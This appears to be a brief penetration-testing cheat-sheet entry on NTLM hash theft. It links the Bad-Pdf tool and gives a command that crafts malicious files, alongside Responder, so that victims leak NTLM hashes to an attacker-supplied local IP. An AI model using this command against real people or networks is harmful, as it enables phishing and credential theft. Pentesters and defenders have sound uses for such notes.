 # ntlm_theft

% pdf, phishing, ntlm farming

#plateform/linux #target/remote #cat/ATTACK/COERCE-FILE

## craft malicious pdf (hash farming) + launch responder
https://github.com/deepzec/Bad-Pdf
```
ntlm_theft.py -g all -s <local_ip> -f <name>
```
